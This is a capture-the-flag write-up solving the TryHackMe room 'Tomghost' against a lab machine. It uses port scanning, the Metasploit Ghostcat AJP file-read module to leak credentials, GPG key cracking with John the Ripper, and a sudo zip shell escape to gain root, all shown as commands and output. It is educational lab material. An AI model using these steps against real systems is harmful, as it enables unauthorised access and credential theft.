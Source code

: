 ```yaml
---
title: "Tomghost"
date: 2025-01-23
image: /assets/img/tryhackme/Tomghost/Tomghost_image.jpg
description: Writeup of the TryHackMe-CTF Tomghost
categories: [Tryhackme, Easy]
tags: [linux, enumeration, vulnerability, gpg, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Tomghost</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/tomghost">https://tryhackme.com/r/room/tomghost</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution to the CTF challenge Tomghost.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:12 EST
Nmap scan report for 10.10.142.154
Host is up (0.039s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,53,8009,8080 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:13 EST
Nmap scan report for 10.10.142.154
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
from here I started with port 8080 because the `Tomcat/9.0.30` sounds intersting.

## Port 8080 Analysis
We can see a default installation of Apache Tomcat with version 9.0.30. A quick Google serach for potential vulnerabilites gave me an <a href="https://www.exploit-db.com/exploits/49039">exploit-db</a> entry. From here I started Metasploit and searched for a vulnerability called `ghostcat`.
```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```
This seemed promising, so I loaded the module, set the required options and ran the exploit (I cutted the exploit output for readability):
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.142.154
rhosts => 10.10.142.154

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.142.154

[*** removed ***]

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[removed]
  </description>

</web-app>

[+] 10.10.142.154:8009 - File contents save to: /home/kali/.msf4/loot/20250123051937_default_10.10.142.154_WEBINFweb.xml_229749.txt
[*] Auxiliary module execution completed
```
The output provide some credentials which we could use to connect with ssh:
```bash
$ ssh skyfuck@10.10.142.154
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{*** removed ***}
```
I was able to retrieve the user flag and found another username, so let's get his credentials

## Privilege Escalation Merlin
There where two intersting files:
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
I tried to crack the private keys hash to decrypt the `credential.pgp`:
```bash
$ gpg2john tryhackme.asc > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
  Using default input encoding: UTF-8
  Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
  Cost 1 (s2k-count) is 65536 for all loaded hashes
  Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
  Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  alexandru        (tryhackme)
  1g 0:00:00:00 DONE (2025-01-23 05:26) 16.66g/s 17866p/s 17866c/s 17866C/s [removed]
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
$ gpg --import tryhackme.asc
  gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
  gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
  gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
  gpg: key 8F3DA3DEC6707170: secret key imported
  gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
$ gpg --decrypt credential.pgp
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
        "tryhackme <stuxnet@tryhackme.com>"
  merlin:[removed]
```
With the credentials I was able to ssh in as merlin
```bash
$ ssh merlin@10.10.142.154
merlin@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/zip/">gftobins</a> gave me all I needed:
```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
